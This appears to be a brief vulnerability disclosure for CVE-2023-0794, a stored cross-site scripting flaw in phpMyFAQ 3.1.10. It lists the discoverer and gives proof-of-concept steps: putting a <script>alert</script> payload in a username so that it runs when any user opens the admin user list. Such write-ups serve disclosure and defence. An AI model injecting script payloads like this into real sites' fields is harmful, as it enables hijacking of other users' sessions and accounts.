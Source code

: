 # Description

1. CVE-2023-0794 stored XSS in phpMyFAQ
1. Discoverer: Ahmed Hassan
1. Vendor of Product: phpMyFAQ
1. Affected Product: phpMyFAQ - 3.1.10

# POC
1. Login
1. Go to https://xyz/admin/?action=user&user_action=listallusers
1. Create a new User or change his username with <script>alert(‘1’)</script>
1. Refresh the Page from any Account admin or normal User the Code will run Example for the HTML Code: <script>alert(‘1’)</script>


! 
